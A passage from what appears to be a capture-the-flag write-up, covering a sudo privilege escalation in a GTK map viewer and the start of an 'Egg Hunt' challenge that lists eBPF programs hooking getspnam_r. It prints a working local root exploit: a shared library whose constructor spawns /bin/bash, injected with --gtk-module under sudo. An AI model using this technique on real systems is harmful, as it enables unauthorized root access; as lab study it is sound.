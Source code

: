 {% highlight bash %}
$ XAUTHORITY=$(pwd)/.Xauthority sudo /usr/local/bin/mapviewer
{% endhighlight %}

Every GTK program takes a number of extra command line parameters including one called "--gtk-module" where you can specify extra libraries to load, similar to LD_PRELOAD. We can use this to build a library which will simply open a shell on load and provide it as an argument to the program:

{% highlight bash %}
cat << EOF > privesc.c
#include <stdlib.h>
__attribute__((constructor)) void privesc()
{  
    system("/bin/bash");
}
EOF
$ gcc privesc.c -shared -o privesc.so
$ XAUTHORITY=$(pwd)/.Xauthority sudo /usr/local/bin/mapviewer --gtk-module=$(pwd)/privesc.so
{% endhighlight %}

Finally we can check the history to see what the intruder did to access the other server and do the same thing ourselves to get the flag.

{% highlight bash %}
$ cat .bash_history
$ ssh backup@maps-backups.challenges.adversary.zone
{% endhighlight %}

Flag: `CS{sudo_+_GTK_=_pwn}` 

### Egg Hunt

Again we are given an image and a server running the same image. We can load the snapshot in the image and find that three eBPF programs have been loaded into the kernel. We can dump a disassembly of these programs.

{% highlight bash %}
$ bpftool prog show
...
16: tracepoint  name kprobe_netif_re  tag e0d014d973f44213  gpl
	loaded_at 2021-01-27T21:11:18+0000  uid 0
	xlated 2344B  jited 1544B  memlock 4096B  map_ids 4
	btf_id 5
17: kprobe  name getspnam_r_entr  tag acab388c8f8ef0f9  gpl
	loaded_at 2021-01-27T21:11:18+0000  uid 0
	xlated 336B  jited 223B  memlock 4096B  map_ids 3
	btf_id 5
18: kprobe  name getspnam_r_exit  tag ceeabb4ac5b9ed45  gpl
	loaded_at 2021-01-27T21:11:18+0000  uid 0
	xlated 328B  jited 209B  memlock 4096B  map_ids 3,4
	btf_id 5

$ prog dump xlated id 16 | tee bpf_16.txt
int kprobe_netif_receive_skb(struct netif_receive_skb_args * args):
...

$ prog dump xlated id 17 | tee bpf_17.txt
int getspnam_r_entry(long long unsigned int * ctx):
...

$ prog dump xlated id 18 | tee bpf_18.txt
int getspnam_r_exit(long long unsigned int * ctx):
...

{% endhighlight %}
